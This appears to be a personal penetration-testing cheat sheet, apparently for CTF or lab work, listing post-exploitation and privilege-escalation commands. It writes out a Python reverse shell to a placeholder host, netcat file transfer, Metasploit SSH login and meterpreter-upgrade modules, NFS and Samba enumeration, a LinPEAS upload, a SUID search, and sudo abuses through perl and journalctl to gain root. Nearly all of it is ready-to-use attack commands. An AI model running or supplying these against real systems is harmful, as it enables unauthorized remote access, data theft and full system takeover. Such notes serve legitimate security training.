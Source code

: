 ## Attempt to Elevate permissions after entry


### Python based reverse shell

```
python3 -c 'import
socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' &
```


### Upgrade Shell to TTY

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```



### Download file to remote host

Host:
```
nc -l PORT < /path/to/file
```

Client:
```
nc IP PORT > file
```

### Open SSH through Metasploit

```
use auxiliary/scanner/ssh/ssh_login
```

### Upgrade shell to meterpreter

```
use post/multi/manage/shell_to_meterpreter
```

##### Gather random exploits possibilities.

```
use post/multi/recon/local_exploit_suggester
```
Gives readout of possible vulnerabilities of connected host


### NFS (RPCBIND?)

Enumerate NFS shares.

```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.223.98
```



### Linux Specific

```sudo -l```

```whoami```

##### Run command as specific user
```
sudo -u USER command
```

##### Start shell as specific user
```
sudo -u USER bash -i
```

#### Search specific word

```grep -n "WORD" /path/to/file(s)```

-n lists line number

-r - recursively check all files matching path

-B # - Prints this many lines before

-A # - Prints this many lines after

#### LinPEAS

https://github.com/carlospolop/PEASS-ng/releases

Only need linpeas.sh

```
scp /home/mike/linpeas.sh USER@IP:/home/USER
```
```
./linpeas.sh
```

#### Search for SUID Bit files

SUID Bit - User executes the file with permissions of the file owner

```
find / -perm -u=s -type f 2>/dev/null
```


### FTP

Replicate entire FTP
```
wget -m ftp://anonymous:anonymous@IP
```


### Samba share

##### Quick Enumeration

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse IP
```

Change port to match nmap results. (Usually 139 or 445)

##### Deep Enumeration

```
enum4linux -a IP | tee enum4linux.log
```


#### Inspect Samba Share

```
smbclient //ip/sambashare
```


#### Recursively download the SMB share

```
smbget -R smb://ip/sambashare
```

### PERL elevation

```
sudo /usr/bin/perl -e 'exec "/bin/sh"'
```

### JournalCTL Less exploitation

```
/usr/bin/sudo /usr/bin/journalctl -n5 - service.service

```
creates `less` to create 

Follow up with
```
!/bin/bash
``` 
to get root
